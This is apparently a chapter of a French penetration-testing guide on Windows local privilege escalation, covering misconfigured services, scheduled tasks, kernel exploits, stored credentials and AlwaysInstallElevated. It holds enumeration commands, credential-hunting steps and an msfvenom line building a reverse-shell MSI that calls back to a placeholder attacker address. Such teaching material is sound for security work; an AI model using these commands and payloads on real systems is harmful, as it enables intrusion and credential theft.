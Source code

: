 # V.E. Exploitation de Vulnérabilités Locales et de Mauvaises Configurations

Une fois un accès obtenu sur une machine, même avec des privilèges limités, il est possible d'élever les privilèges localement vers `NT AUTHORITY\SYSTEM` ou un administrateur local. Cela peut ensuite faciliter le mouvement latéral ou l'accès à des informations/credentials stockés localement.

Voir [IV.A Énumération Locale Approfondie](../04-post-compromission/A-enumeration-locale.md) pour les techniques d'identification.

## 1. Services Windows Mal Configurés

*   **Chemins de Service Non Quotés (Unquoted Service Paths) :**
    *   **Principe :** Si le chemin vers l'exécutable d'un service contient des espaces et n'est pas entre guillemets, Windows peut tenter d'exécuter un programme malveillant placé dans un répertoire parent. Ex: `C:\Program Files\Mon Service\service.exe`. Windows cherchera `C:\Program.exe`.
    *   **Identification :**
        ```powershell
        Get-CimInstance -ClassName win32_service | Select Name, DisplayName, PathName, StartMode, StartName | Where-Object {$_.PathName -notlike '"*' -and $_.PathName -like "* *"}
        # Vérifier les permissions d'écriture sur les dossiers concernés.
        # accesschk.exe -d "C:\Program Files\Mon Service\"
        ```
        Outils comme `WinPEAS`, `PowerUp.ps1` (`Get-UnquotedService`) peuvent automatiser cela.
    *   **Exploitation :** Placer un exécutable malveillant (ex: `Program.exe`) dans le chemin interprétable et redémarrer le service (si on a les droits ou si le service redémarre automatiquement).
*   **Permissions Faibles sur les Exécutables de Service ou les Clés de Registre :**
    *   **Principe :** Si un utilisateur peut modifier l'exécutable d'un service (qui tourne en tant que SYSTEM) ou sa configuration dans le registre (`ImagePath`), il peut remplacer l'exécutable par un malware.
    *   **Identification :**
        *   `accesschk.exe -uwcqv "Authenticated Users" *` (pour les services)
        *   `accesschk.exe -k "hklm\system\currentcontrolset\services"` (pour les clés de registre)
        *   PowerUp.ps1 : `Get-ModifiableServiceFile`, `Get-ModifiableServiceRegistry`
    *   **Exploitation :** Remplacer le binaire, modifier `ImagePath`, redémarrer le service.
*   **DLL Hijacking dans les Services :**
    *   **Principe :** Si un service (tournant en tant que SYSTEM) charge une DLL depuis un chemin où un utilisateur standard a des droits d'écriture, l'attaquant peut remplacer la DLL légitime par une DLL malveillante.
    *   **Identification :** Utiliser ProcMon (Sysinternals) pour observer les `NAME NOT FOUND` lors du chargement des DLLs par les services. Vérifier les permissions sur ces chemins.
    *   **Exploitation :** Placer la DLL malveillante, redémarrer le service.

## 2. Tâches Planifiées Mal Configurées

*   **Principe :** Si une tâche planifiée exécutée avec des privilèges élevés pointe vers un script/exécutable modifiable par un utilisateur standard.
*   **Identification :**
    ```powershell
    Get-ScheduledTask | ?{$_.Principal.UserId -eq "S-1-5-18" -or $_.Principal.LogonType -eq "Password"} | %{ $task = $_; $_.Actions | %{ Write-Host "Task: $($task.TaskName)"; Write-Host "Principal: $($task.Principal.UserId)"; Write-Host "Action: $($_.Execute)"; $path = $_.Execute.Trim('"'); if(Test-Path $path){ Get-Acl $path | Select Path, Owner, AccessToString } Else { Write-Warning "Path not found: $path" } } }
    # PowerUp.ps1: Get-ModifiableScheduledTaskFile
    ```
*   **Exploitation :** Remplacer le script/exécutable, attendre l'exécution de la tâche ou la déclencher si possible.

## 3. Vulnérabilités Kernel (Exploits Locaux)

*   **Principe :** Exploiter des failles dans le noyau Windows (CVEs) pour obtenir des privilèges SYSTEM.
*   **Identification :**
    *   Comparer la version du système et les patchs installés (`systeminfo`, `wmic qfe`) avec les bases de données de CVEs.
    *   Outils : `Sherlock.ps1`, `Watson.exe`, `Windows Exploit Suggester (wesng)`.
        ```bash
        # wesng
        # python wes.py --update
        # python wes.py systeminfo.txt
        ```
*   **Exploitation :** Utiliser des exploits publics (Metasploit, GitHub). **Attention :** Peut être instable et causer des plantages. Tester en environnement contrôlé.

## 4. Mots de Passe Stockés en Clair / Faiblement Protégés

*   **Fichiers de configuration, scripts, registre :** Voir [IV.A Énumération Locale Approfondie](../04-post-compromission/A-enumeration-locale.md#4-recherche-de-credentials-et-informations-sensibles).
*   **Group Policy Preferences (GPP) Passwords :**
    *   **Principe :** Anciennement, les GPOs permettaient de définir des mots de passe (ex: pour des admins locaux, des tâches planifiées) qui étaient stockés chiffrés avec une clé AES publique dans SYSVOL.
    *   **Identification :** Rechercher les fichiers `Groups.xml`, `ScheduledTasks.xml`, `Services.xml` dans SYSVOL.
        ```powershell
        # PowerSploit: Get-GPPPassword
        Get-GPPPassword
        ```
    *   **Exploitation :** Déchiffrer le champ `cpassword` avec la clé AES publique.
*   **Autologon Credentials :**
    *   Stockés dans `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon`.
    *   `DefaultUserName`, `DefaultPassword`.
*   **Unattend Files :**
    *   Fichiers XML (`unattend.xml`, `autounattend.xml`) utilisés pour l'installation automatisée de Windows, peuvent contenir des credentials d'admin local.
    *   Rechercher dans `C:\Windows\Panther`, `C:\Windows\System32\Sysprep`, etc.

## 5. AlwaysInstallElevated

*   **Principe :** Si les clés de registre `HKCU\Software\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated` et `HKLM\Software\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated` sont toutes les deux à `1`, les paquets MSI sont installés avec les privilèges SYSTEM, quel que soit l'utilisateur qui les lance.
*   **Identification :**
    ```powershell
    reg query HKCU\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
    reg query HKLM\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
    ```
*   **Exploitation :** Créer un paquet MSI malveillant (ex: avec `msfvenom`) et l'exécuter.
    ```bash
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP_ATTAQUANT> LPORT=<PORT> -f msi -o evil.msi
    # Exécuter sur la cible :
    # msiexec /quiet /qn /i evil.msi
    ```

## 6. DLL Hijacking (Applications Utilisateur)
*   Similaire au DLL Hijacking pour les services, mais pour des applications lancées par l'utilisateur qui pourraient avoir des privilèges plus élevés ou charger des DLLs depuis des chemins inattendus.

**Outils d'Automatisation pour l'Élévation de Privilèges Locaux :**
*   **WinPEAS :** Script/exécutable complet pour l'énumération et la suggestion de vecteurs d'escalade.
*   **PowerUp.ps1 (PowerSploit) :** Contient de nombreuses fonctions pour trouver et abuser des mauvaises configurations.
*   **Seatbelt.exe :** Outil d'énumération axé sur la sécurité.
*   **JAWS (Just Another Windows Privilege Escalation Script).**

Toujours vérifier les résultats des outils automatisés et comprendre le vecteur d'exploitation avant de l'utiliser. 